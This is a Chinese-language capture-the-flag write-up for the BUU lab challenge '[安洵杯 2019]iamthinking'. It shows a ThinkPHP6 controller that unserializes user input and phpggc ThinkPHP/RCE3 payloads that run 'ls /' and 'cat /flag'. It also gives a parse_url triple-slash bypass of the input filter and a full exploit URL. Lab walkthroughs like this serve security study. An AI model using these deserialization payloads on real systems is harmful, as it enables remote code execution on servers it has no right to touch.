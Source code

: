 ```yaml
---
{"dg-publish":true,"dg-path":"安全/靶场/BUU_[安洵杯 2019]iamthinking.md","permalink":"/安全/靶场/BUU_[安洵杯 2019]iamthinking/","title":"BUU_[安洵杯 2019]iamthinking"}
---
```


利用dirsearch工具目录扫描发现网站源码：
![Pasted image 20241116143028.png](/img/user/picture/Pasted%20image%2020241116143028.png)

查看源码发现网站是基于thinkPHP6开发的
![Pasted image 20241116143116.png](/img/user/picture/Pasted%20image%2020241116143116.png)

根据提示有`/public/`目录
![Pasted image 20241116143149.png](/img/user/picture/Pasted%20image%2020241116143149.png)
查看源码：
```php
<?php  
namespace app\controller;  
use app\BaseController;  
  
class Index extends BaseController  
{  
    public function index()  
    {  
          
        echo "<img src='../test.jpg'"."/>";  
        $paylaod = @$_GET['payload'];  
        if(isset($paylaod))  
        {  
            $url = parse_url($_SERVER['REQUEST_URI']);  
            parse_str($url['query'],$query);  
            foreach($query as $value)  
            {  
                if(preg_match("/^O/i",$value))  
                {  
                    die('STOP HACKING');  
                    exit();  
                }  
            }  
            unserialize($paylaod);  
        }  
    }  
}
```


关于工具使用看这篇文章：
https://xz.aliyun.com/t/5450?time__1311=n4%2BxnieWqYwxyD0gxBqDqplDuAyrL5vUQx
发现存在反序列化，利用phpggc工具看是否有对应的漏洞
![Pasted image 20241116143317.png](/img/user/picture/Pasted%20image%2020241116143317.png)

![Pasted image 20241116143322.png](/img/user/picture/Pasted%20image%2020241116143322.png)


构造payload：
```shell
┌──(root㉿GMC)-[~/phpggc]
└─# ./phpggc  ThinkPHP/RCE3 system 'ls /' --url
O%3A41%3A%22League%5CFlysystem%5CCached%5CStorage%5CPsr6Cache%22%3A3%3A%7Bs%3A47%3A%22%00League%5CFlysystem%5CCached%5CStorage%5CPsr6Cache%00pool%22%3BO%3A26%3A%22League%5CFlysystem%5CDirectory%22%3A2%3A%7Bs%3A13%3A%22%00%2A%00filesystem%22%3BO%3A26%3A%22League%5CFlysystem%5CDirectory%22%3A2%3A%7Bs%3A13%3A%22%00%2A%00filesystem%22%3BO%3A14%3A%22think%5CValidate%22%3A1%3A%7Bs%3A7%3A%22%00%2A%00type%22%3Ba%3A1%3A%7Bs%3A3%3A%22key%22%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00path%22%3Bs%3A4%3A%22ls%20%2F%22%3B%7Ds%3A7%3A%22%00%2A%00path%22%3Bs%3A3%3A%22key%22%3B%7Ds%3A11%3A%22%00%2A%00autosave%22%3Bb%3A0%3Bs%3A6%3A%22%00%2A%00key%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A8%3A%22anything%22%3B%7D%7D

┌──(root㉿GMC)-[~/phpggc]
└─# ./phpggc  ThinkPHP/RCE3 system 'cat /flag' --url
O%3A41%3A%22League%5CFlysystem%5CCached%5CStorage%5CPsr6Cache%22%3A3%3A%7Bs%3A47%3A%22%00League%5CFlysystem%5CCached%5CStorage%5CPsr6Cache%00pool%22%3BO%3A26%3A%22League%5CFlysystem%5CDirectory%22%3A2%3A%7Bs%3A13%3A%22%00%2A%00filesystem%22%3BO%3A26%3A%22League%5CFlysystem%5CDirectory%22%3A2%3A%7Bs%3A13%3A%22%00%2A%00filesystem%22%3BO%3A14%3A%22think%5CValidate%22%3A1%3A%7Bs%3A7%3A%22%00%2A%00type%22%3Ba%3A1%3A%7Bs%3A3%3A%22key%22%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00path%22%3Bs%3A9%3A%22cat%20%2Fflag%22%3B%7Ds%3A7%3A%22%00%2A%00path%22%3Bs%3A3%3A%22key%22%3B%7Ds%3A11%3A%22%00%2A%00autosave%22%3Bb%3A0%3Bs%3A6%3A%22%00%2A%00key%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A8%3A%22anything%22%3B%7D%7D
```
注意这里要用工具自带的编码，不然很容易出错
![Pasted image 20241116145733.png](/img/user/picture/Pasted%20image%2020241116145733.png)
但是发现不行，原因在于程序中和有一布检查
```php
            $url = parse_url($_SERVER['REQUEST_URI']);  
            parse_str($url['query'],$query);  
            foreach($query as $value)  
            {  
                if(preg_match("/^O/i",$value))  
                {  
                    die('STOP HACKING');  
                    exit();  
                }  
            }
```

大致就是`parse_str`函数将url拆分为不同部分，然后检查传入的参数
这里可以绕过`parse_str`函数的检查，可以看这篇文章
https://www.cnblogs.com/Lee-404/p/12826352.html

![Pasted image 20241116150010.png](/img/user/picture/Pasted%20image%2020241116150010.png)

我们就拿到了flag：
```url
http://ebe05599-96df-4285-a0fd-3f0a2192544b.node5.buuoj.cn:81///public/?payload=O%3A41%3A%22League%5CFlysystem%5CCached%5CStorage%5CPsr6Cache%22%3A3%3A%7Bs%3A47%3A%22%00League%5CFlysystem%5CCached%5CStorage%5CPsr6Cache%00pool%22%3BO%3A26%3A%22League%5CFlysystem%5CDirectory%22%3A2%3A%7Bs%3A13%3A%22%00%2A%00filesystem%22%3BO%3A26%3A%22League%5CFlysystem%5CDirectory%22%3A2%3A%7Bs%3A13%3A%22%00%2A%00filesystem%22%3BO%3A14%3A%22think%5CValidate%22%3A1%3A%7Bs%3A7%3A%22%00%2A%00type%22%3Ba%3A1%3A%7Bs%3A3%3A%22key%22%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00path%22%3Bs%3A9%3A%22cat%20%2Fflag%22%3B%7Ds%3A7%3A%22%00%2A%00path%22%3Bs%3A3%3A%22key%22%3B%7Ds%3A11%3A%22%00%2A%00autosave%22%3Bb%3A0%3Bs%3A6%3A%22%00%2A%00key%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A8%3A%22anything%22%3B%7D%7D
```

![Pasted image 20241116150034.png](/img/user/picture/Pasted%20image%2020241116150034.png)


